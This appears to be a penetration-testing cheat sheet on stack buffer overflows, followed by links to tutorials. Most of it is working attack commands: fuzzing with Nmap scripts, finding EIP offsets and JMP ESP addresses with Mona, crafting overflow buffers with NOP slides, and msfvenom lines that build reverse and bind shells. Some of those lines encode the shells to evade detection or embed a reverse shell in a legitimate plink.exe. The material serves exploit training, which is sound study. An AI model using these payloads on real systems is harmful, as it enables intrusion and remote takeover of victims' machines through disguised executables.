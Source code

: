 Buffer Overflows
===================================================================================================================================

-   DEP and ASLR - Data Execution Prevention (DEP) and Address Space
    Layout Randomization (ASLR)


-   Nmap Fuzzers:

    -   NMap Fuzzer List  
        [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer  
        `nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip`

    -   Nmap DNS Fuzzer  
        `nmap --script dns-fuzz --script-args timelimit=2h $ip -d`

-   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    -   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    -   Final Payload with NOP slide  

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell  
        `msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe`

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        `msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe`

    -   Create a PE reverse shell and embed it into an existing
        executable  
        `msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe`

    -   Create a PE Reverse HTTPS shell  
        `msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe`

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        `edb --run /usr/games/crossfire/bin/crossfire`

    -   ESP register points toward the end of our CBuffer
        ````
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax
        ````

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   `msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai`

    -   Connect to the shell with netcat:  
        `nc -v $ip 4444`

## References
- [Buffer Overflow Practice](https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/)
- [Simple Windows BOF](http://proactivedefender.blogspot.com/2013/05/understanding-buffer-overflows.html?m=1)
- [Fuzzy Security - Windows Exploit Development](http://www.fuzzysecurity.com/tutorials.html)
- [dostackbufferoverflowgood - easy to read](https://github.com/justinsteven/dostackbufferoverflowgood)
- [Exploit Exercises](https://exploit-exercises.com/)
- [Corelan's exploit writing tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
- [Live Overflow's Binary Hacking Videos](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
- [Introduction to 32-bit Windows Buffer Overflows](https://www.veteransec.com/blog/introduction-to-32-bit-windows-buffer-overflows)
- [Getting Started with x86 Linux Buffer Overflows](https://scriptdotsh.com/index.php/2018/05/14/getting-started-with-linux-buffer-overflows-part-1-introduction/)
- https://www.sans.org/reading-room/whitepapers/threats/buffer-overflows-dummies-481
- https://www.exploit-db.com/docs/28475.pdf
